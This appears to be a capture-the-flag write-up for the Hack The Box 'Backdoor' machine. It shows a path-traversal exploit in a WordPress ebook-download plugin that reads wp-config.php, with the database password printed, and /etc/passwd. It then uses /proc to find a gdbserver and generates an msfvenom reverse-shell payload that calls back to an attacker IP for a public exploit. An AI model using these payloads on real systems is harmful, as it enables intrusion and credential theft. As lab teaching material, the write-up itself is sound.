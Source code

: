 
- **WP Version: 5.8.1**
- **No plugins (according to wpscan)**

Looking through the directories manually we can see that wpscan didn't really do it's job as there is a plugin, ebook download, in http://10.129.108.149/wp-content/plugins/. Looking in the `readme.txt` it seems like it's running version 1.1.

A quick google about the plugin and we find a directory traversal vulnerability.
`10.129.108.149/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

-----

<br>

### Step 2
Use the path traversal to find username;
http://10.129.108.149/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd

We are unable to extract `/home/user/user.txt` and/or `/home/user/.ssh/id_rsa`, but we can verify that we are in the correct directory by extracting `/home/user/.bashrc`.

Running my lfi-list and looking on `/proc/sched_debug` we can see all locally running services with their PID's. Among them I find `gdbserver` on PID `40276`. Investigating the pid in question with `/proc/40276/cmdline` we get the following output:
`gdbserver --once 0.0.0.0:1337`

Verifying with nmap we see that I missed port 1337.
```bash
$ nmap -p 1337 10.129.108.149     
PORT     STATE SERVICE
1337/tcp open  waste
```

-----

<br>

### Step 3
Exploit gdbserver with found [script](https://www.exploit-db.com/exploits/50539).
```bash
┌──(void㉿void)-[/htb/backdoor]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.30 LPORT=4488 PrependFork=true -o rev.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Saved as: rev.bin

┌──(void㉿void)-[/htb/backdoor]
└─$ python3 gdb-expl.py 10.129.108.149:1337 rev.bin
```